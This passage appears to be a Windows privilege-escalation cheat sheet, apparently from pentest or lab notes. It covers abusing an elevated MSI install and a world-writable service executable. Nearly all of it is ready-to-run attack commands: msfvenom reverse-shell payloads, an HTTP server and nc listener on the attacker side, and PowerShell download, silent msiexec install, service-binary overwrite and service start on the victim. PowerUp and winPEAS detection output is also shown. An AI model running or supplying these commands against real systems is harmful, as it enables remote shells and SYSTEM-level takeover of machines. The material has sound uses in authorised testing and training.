 ##### Exploitation

```
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi > program.msi
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.msi', 'C:\Temp\program.msi')
msiexec /quiet /qn /i C:\Temp\program.msi
```

#### Executable Files

##### Detection

```
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking service executable and argument permissions...

ServiceName                     : filepermsvc
Path                            : "C:\Program Files\File Permissions Service\filepermservice.exe"
ModifiableFile                  : C:\Program Files\File Permissions Service\filepermservice.exe
ModifiableFilePermissions       : {ReadAttributes, ReadControl, Execute/Traverse, DeleteChild...}
ModifiableFileIdentityReference : Everyone
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'filepermsvc'
CanRestart                      : True
```

or

```
winPEAS.exe

[+] Interesting Services -non Microsoft-(T1007)

filepermsvc(Apache Software Foundation - File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"] - Manual - Stopped
	File Permissions: Everyone [AllAccess]
```

##### Exploitation

```
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > program.exe
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.exe', 'C:\Temp\program.exe')
copy /y c:\Temp\program.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
sc start filepermsvc
```
